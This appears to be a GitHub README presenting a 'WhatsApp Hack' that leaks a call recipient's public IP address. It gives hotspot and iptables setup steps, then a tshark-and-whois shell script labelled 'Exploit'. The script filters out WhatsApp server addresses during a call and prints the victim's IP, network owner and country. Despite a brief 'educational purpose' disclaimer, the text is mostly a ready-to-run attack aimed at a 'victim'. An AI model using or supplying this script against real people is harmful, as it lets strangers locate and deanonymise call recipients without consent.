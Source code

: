 # WhatsApp Hack! (Leak Public IP Addresses) 
Find Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim

Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
```
sudo hotspotd start
```
- Step 2: Run the following commands:
 ```
 echo 1 > /proc/sys/net/ipv4/ip_forward
 iptables -t nat -I POSTROUTING -j MASQUERADE
 ```
- Step 3: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 4: Connect Your phone with Attacker SSID
- Step 5: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 6: Call victim on his whatsapp 
- Step 7: Disconnect the call once established
- Step 8: Script will reveal the public IP address of the target
- #Boom!!!!!!!

## Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
## Credit

## [bhdresh](https://github.com/bhdresh)
